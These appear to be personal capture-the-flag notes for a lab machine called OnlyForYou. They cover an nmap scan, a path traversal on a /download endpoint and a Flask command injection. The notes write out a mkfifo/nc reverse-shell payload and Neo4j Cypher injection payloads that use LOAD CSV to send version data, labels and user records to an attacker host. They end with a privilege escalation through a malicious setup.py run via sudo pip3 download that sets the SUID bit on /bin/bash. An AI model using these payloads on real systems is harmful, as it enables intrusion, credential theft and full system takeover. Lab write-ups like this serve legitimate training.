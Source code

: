 ## OnlyForYou

```
Nmap scan report for only4you.htb (10.10.11.210)
Host is up (0.051s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
|_  256 445f7aa377690a77789b04e09f11db80 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Only4you
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

``` 


domain : http://only4you.htb



## Subdomain 


http://beta.only4you.htb


in /download find this source.zip which reveal the FLASK app.... and found also a Path traversal in /dowload 



## Vulnerability LFI 



/download 

image=/etc/passwd	


/var/www/only4you.htb/app.py  -- flask
---------------------/form.py 


resutl = run([f"dig txt {domain}"], shell=True, stdout=PIPE))


f'{email}' uscire con grep e inserire un payload mkfifo coderpwner@code.com|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 4444 >/tmp/f



port forward in 8001 


neo4j console 


search... found a database injection 



Version

```' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://IP:80/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

Label


```
 ' OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://IP:80/?label='+label as l RETURN 0 as _0 //
```



User table 


```
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://IP:80/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```



## ROOT

https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/


`sudo -l pip3 download http://iP/*tar.gz`


setup.py 


```python

from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os


def command():
	os.system("chmod u+s /bin/bash")


```





